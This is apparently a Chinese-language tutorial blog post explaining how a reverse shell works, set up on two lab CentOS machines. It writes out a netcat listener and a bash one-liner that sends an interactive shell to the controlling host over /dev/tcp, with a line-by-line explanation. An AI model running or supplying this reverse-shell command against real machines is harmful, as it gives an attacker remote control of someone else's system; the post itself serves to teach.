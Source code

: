 ```yaml
---
title: 反向shell
type: shell
description: 反向shell的工作方式是远程计算机将自己的shell发送给特定的用户，而不是将shell绑定到一个端口上
date: 2020-06-22 19:10:42
---
```

>[反向shell](https://baike.baidu.com/item/%E5%8F%8D%E5%90%91shell/16751835?fr=aladdin)的工作方式是远程计算机将自己的shell发送给特定的用户，而不是将shell绑定到一个端口上。后者在很多环境中是无法访问的。这样，你就可以对远程服务器执行root命令。

## 测试环境

* 控制端：10.60.188.188 、 CentOS-7
* 被控制端：10.60.30.88 、 CentOS-7

## 测试步骤

1. 控制端执行
   
```
    ~#: nc -lvp 50509       //监听一个tcp端口 50509
```

2. 被控制端执行

```
    ~#:bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1
```

3. 执行后，在控制端会进入一个 `被控端` 的命令行shell 。 可以执行一切命令，就相当于登录进 `被控制端一样`

效果图：

![控制端](/images/shell_server.png)

![控制端](/images/shell_client.png)


## 原理说明

* `nc -lvp 50509`  nc 命令很常用，这里只是监听一个tcp端口50509
* `bash -i` 开启一个交互式shell
* `bash -i > /dev/tcp/10.60.188.188/50509`   把这个交互式shell的输出，重定向给tcp 10.60.188.188:50509 。如果仅仅执行这个命令，那么被控制端接下来输入的任何东西，都会被传输到控制端
* `bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1` 交互式shell的 输入、输出、标准错误都传输到 tcp 10.60.188.188:50509。  （也就是说，执行完命令后，正常情况下，你期望的是执行完 `bash -i` 开启一个新的shell，然后你进行各种命令操作，此时你输入的各种命令来自于你自己的终端。 但是，我们的这个命令，把标准输入也设置为从 socket获取，同时标准输出 和标准错误 都传输给socket。  这样的话，也就是说，相当于通过这个socket 在被控制端执行了一个 交互式shell，那么此时你在控制端就可以对被控制端做任何操作了。）

## 补充

反向shell，通常被黑客所利用。 不过，说实话，对于普通大众个人电子设备在神级黑客面前可以说都是肉鸡，除了无奈，还是无奈。  不过，自己多了解一下知识，遇到这种情况了，不至于慌得一笔 ！
  


